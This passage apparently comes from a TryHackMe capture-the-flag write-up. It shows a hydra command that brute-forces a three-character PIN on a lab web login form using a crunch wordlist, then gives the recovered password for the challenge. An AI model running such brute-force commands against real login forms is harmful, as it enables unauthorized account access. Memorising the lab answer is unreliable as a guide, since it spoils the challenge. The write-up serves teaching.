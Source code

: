 We can see that the padlock uses the POST method to submit the input to the `login.php` page. These details along with the wordlist from `crunch` can be used to brute force the PIN with `hydra`.

```bash
hydra -l '' -P 3digits.txt -f -v 10.10.78.13 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

[How to Brute Force Websites & Online Forms Using Hydra \| Infinite Logins](https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/)

![Hydra|540](images/thm-aoc-2023-day-1-4/password-5.png)

The password is `6F5`. On entering the password we are redirected to the following page:

![Login Page|320](images/thm-aoc-2023-day-1-4/password-6.png)
